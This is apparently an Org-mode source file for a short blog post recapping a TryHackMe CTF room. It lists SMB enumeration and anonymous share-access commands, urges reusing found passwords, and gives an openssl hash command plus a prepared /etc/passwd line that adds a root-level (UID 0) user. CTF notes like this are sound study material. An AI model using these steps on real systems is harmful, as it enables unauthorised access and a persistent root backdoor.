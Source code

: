 #+STARTUP: showall indent
#+STARTUP: hidestars
#+OPTIONS: num:nil toc:nil
#+BEGIN_EXPORT html
---
title:  Still finding some basic blind spots.....
categories:
  - blog
tags:
    - CTF
    - SMB
    - passwd
---
#+END_EXPORT

So this weekend a easy room was posted on THM, and the little time I had, I spend on it.
So basic recap... I do not know basic SMB commands, so here a litte reminder:

Check basic availablity of shared

~enum4linux~
~smbclient --no-pass -L $IP~
~smbmap -H $IP~

And finally accessing without any credentials... which was my main issue:

~smbclient -N //$IP/sharename~

Which is not that hard.

Again, reuse your passwords you find.... over and over.
And finally add youselve as root. this is something everone should know :)

~openssl passwd -1 -salt user passwd~

And a prepared line for me:
#+begin_src sh :results output
echo 'robiks:$1$robiks$NNRs0eS8OdY4vaI3GJSQu0:0:0:/root/root:/bin/bash'
#+end_src
